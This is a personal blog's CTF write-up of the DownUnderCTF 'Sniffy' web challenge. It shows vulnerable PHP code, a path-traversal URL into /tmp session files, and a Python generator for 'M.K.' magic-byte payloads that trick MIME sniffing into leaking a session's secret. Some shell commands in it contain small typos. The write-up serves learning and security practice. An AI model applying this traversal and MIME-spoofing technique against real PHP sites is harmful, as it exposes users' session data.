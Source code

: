 ```yaml
---
layout: post
title: Week 11 - DUCTF - Sniffy
tags: [year-of-hacking, python]
---
```

For the ~~3~~ 4 people that read this and have been waiting for me next post with bated breath, I started last month as a Security Engineer Intern at Affirm, so I moved out to beautiful (and busy) San Francisco on about 2 weeks notice for the summer. Things are a little crazy, to say the least. Now that life has chilled out a bit, I should be able to get back into my routine of publishing these posts. However, life will not return any sense of normalcy until I find a cheap Mexican spot that's open 24/7 within half a mile of my coffin apartment in SOMA neighborhood. For now, I am relying on the endurance I acquired during the great [Provo Rancheritos Remodeling Riots of 2022](https://www.instagram.com/provorancheritos/p/CjRGJPKOtNI/?locale=de-DE&img_index=1). Musing about my lack of good nutrition aside, I am thoroughly thankful for the opportunity to be working and living here.

This weekend, I participated in the very good Down Under CTF under BYU Cyberia. After this CTF, even though we finished in 95th, we are now 16th in the country! We've been working hard, and I'm very happy to see our efforts be rewarded. I didn't solve any challenges, but in my attempts, I did learn a lot. Here's my post-CTF writeup of *Sniffy*. I was actually on the correct track, but I missed a few key details.

## Sniffy
We get a nice little website of kookaburra sounds, where we can switch themes on the top right:
![assets/images/blog/week11/sniffy-main-page.png](assets/images/blog/week11/sniffy-main-page.png)

We also get a file download for the website with a `Dockerfile`. It looks like this is a php application running from the `php:8.3-apache` base image. We also get some php logic in the `index.php`:
```php
<?php  
  
include 'flag.php';  
  
function theme() {  
   return $_SESSION['theme'] == "dark" ? "dark" : "light";  
}  
  
function other_theme() {  
   return $_SESSION['theme'] == "dark" ? "light" : "dark";  
}  
  
session_start();  
  
$_SESSION['flag'] = FLAG; /* Flag is in the session here! */  
$_SESSION['theme'] = $_GET['theme'] ?? $_SESSION['theme'] ?? 'light';
```

Here, it loads the flag into the `$_SESSION` variable. `$_SESSION` is a global variable used by an individual user with a session. We also get a file called `audio.php`
```php
<?php  
  
$file = 'audio/' . $_GET['f'];  
  
if (!file_exists($file)) {  
       http_response_code(404); die;  
}  
  
$mime = mime_content_type($file);  
  
error_log(print_r($mime, TRUE));  
  
if (!$mime || !str_starts_with($mime, 'audio')) {  
       http_response_code(403); die;  
}  
  
header("Content-Type: $mime");  
readfile($file);
```

There's a pretty obvious Local File Inclusion and Path Traversal vulnerability. It looks like we can include almost any file on the container's file system using the `f=` argument, but it checks the result of `mime_content_type` to see if it's some kind of `audio` type. Doing some digging, it looks like this function pulls from configuration defined in `/etc/magic.mime` and `/etc/magic`. However, it doesn't look like my files don't contain any configuration. I spun my wheels a little bit, until I realized that this was all being run from the an Apache container. I started up the container by running:

```shell
docker run --name sniffy -it p 8080:80 sniffy 
```

Then in a different tmux window, I ran:
```shell
docker exec -it sniffy /bin/bash
```

Digging around in documentation, I found that Apache consults `/etc/apache/magic` when deciding a MIME type. I also *think* that the `file` command consults this file. I found it in the running container, and I pulled that down to my host OS with:
```shell
docker cp sniffy:/etc/apache/magic .
```

In these config files, you can list a starting byte and a byte pattern to match. I'm sure you can do some more complex stuff but here it's basically "Is there these bytes? Then it's these data types." On line 51, `/etc/magic/mime` declares that if the bytes 1080-1083 are `M.K.`, the file will be defined `audio/x-mod`:
```
1080    string  M.K.            audio/x-mod
```

How does this help us? Well, here's where I failed to recognize during the CTF that every session that is managed by a PHP runtime is actually a plaintext file under `/tmp/sess_<PHPSESSID>`. Where `<PHPSESSID>` is the cookie assigned by PHP for your session. Let's test this out by visiting the web page and getting a session cookie:
```
PHPSESSID: p7n6b4g9vk20b2kh0cm5u87v0u
```

We can now enter the docker container with (assuming the container is still running):
```bash
docker exec -it /bin/bash sniffy
```

And catting out that file:
```shell
root@baaa20612aq35:/tmp$ cat sess_p7n6b4g9vk20b2kh0cm5u87v0u
flag|s:7:"DUCTF{}";theme|s:5:"light";
```

Now, looking at line 16 in `index.php`, we can see that we have complete control over the value of `$_SESSION['theme']`:
```php
$_SESSION['theme'] = $_GET['theme'] ?? $_SESSION['theme'] ?? 'light';
```

This line of code will set `$_SESSION['theme']` to the value of the `theme` argument, if it's present.

We can test this out by visiting `localhost:8080/index.php?theme=asdfasdfasdf` in the browser. Then we cat out the session file in the container:
```shell
root@baaa20612aq35:/tmp$ cat sess_p7n6b4g9vk20b2kh0cm5u87v0u
flag|s:7:"DUCTF{}";theme|s:12:"asdfasdfadsf";
```

Looks like we're able to write arbitrary values to our session file. We now have a pretty straightforward process for constructing a payload:
1. Find a sequence of characters that will make the `mime_content_type` call in `audio.php` think that the content that it is evaluating is some kind of audio type.
2. Set a user's `$_SESSION['theme']` to that sequence of characters.
3. Visit `audio.php` and load the session file for that user, which will expose the flag!

For the sequence of characters, let's choose the requirement that `M.K.` be in bytes 1080-1083, tricking the `mime_content_type` call into thinking that the session file is actually an `audio/x-mod` file. Let's do a quick and dirty python script to generate all 4 possible payloads:

```python
for i in range(4):
	payload = 'a' * i + 'M.K.' * 0x400
	print(payload)
	print('-' * 40)
```

Visiting `https://web-sniffy-d9920bbcf9df.2024.ductf.dev/index.php?theme=M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K....` will set the cookie. Now, looking at our cookie, we know what our session cookie is, and thus the path to our session file: `PHPSESSID: 03du87nmd49q40acbknvvc0prr`. Trying to visit `https://web-sniffy-d9920bbcf9df.2024.ductf.dev/audio.php?f=../../../../tmp/sess_03du87nmd49q40acbknvvc0prr` returns a 403, which means that this payload didn't work. Let's try the second payload, where the repeating `M.K.` is offset by one character. Success! It looks like it downloaded as an audio file too. Catting it out shows the (uniquely Australian) flag!

```
flag|s:52:"DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}";theme|s:4097:"aM.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K....
```

I'm disappointed I wasn't able to crack this challenge, but I'm very impressed with the final payload, and congratulate those who beat this challenge. The upshot is I've finally finally finally learned how to use containers. I never bothered to wade through the sea of terminology until now.

### Music from this ~~week~~ month
[Llorar](https://open.spotify.com/track/2f9XA7pBMjrHPO2cJW5XCu?si=9e65d8fd5d494392) - Los Socios Del Ritmo
[Mentirosa](https://open.spotify.com/track/3Iw4UVS7fo2TdD6Spmgqaj?si=edcd4b9d4f9c4f67) - Rafaga
[El Chico Del Apartamento 512](https://open.spotify.com/track/43q0J3OPQvNq2UPU2Enu9X?si=4423e348fe474feb) - Selena
[La Vida es Un Carnaval](https://open.spotify.com/track/1BwrMGGhPA6GarWIYaFrW8?si=27f5cef6428b4e3e) - Celia Cruz
[Sleep Is For the Weak](https://open.spotify.com/track/3tkXg3freIdvTxN58YUPaG?si=2eeeb7326bd5409c) - The Dreadnoughts
[Get Up Offa That Thing](https://open.spotify.com/track/5XeSAezNDk9tuw3viiCbZ3?si=c5a575b494774eea)- James Brown
[Chattahoochee](https://open.spotify.com/track/59kHPbwyyCApYA8RQQEuXm?si=2fdfebc543534845) - Alan Jackson
